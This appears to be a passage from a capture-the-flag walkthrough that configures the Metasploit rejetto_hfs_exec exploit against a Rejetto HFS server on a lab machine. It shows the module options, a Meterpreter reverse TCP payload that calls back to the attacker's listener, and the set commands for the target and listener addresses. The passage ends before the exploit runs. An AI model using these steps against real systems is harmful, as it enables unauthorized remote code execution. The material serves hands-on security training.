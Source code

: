We use that exploit `use 0`

```
msf6 exploit(windows/http/rejetto_hfs_exec) > options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.190.134  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

```

Lets modify the required commands:
**RHOSTS** — The IP address of the victim at which we want to target  
**RPORT** —It is the port to which we want to listen, as discovered by nmap’s scan, and we can modify it to port 8080  
**SRVPORT** — We can change it to another port that will not affect us.  
**LHOST** — It’s our own machine, and telling it where to start and listening  
**LPORT** — Our personal listening port

```
msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOST 10.10.118.118
RHOST => 10.10.118.118
msf6 exploit(windows/http/rejetto_hfs_exec) > set LHOST 10.23.62.59
LHOST => 10.23.62.59
msf6 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
RPORT => 8080
msf6 exploit(windows/http/rejetto_hfs_exec) > set SRVPORT 9090
SRVPORT => 9090
```
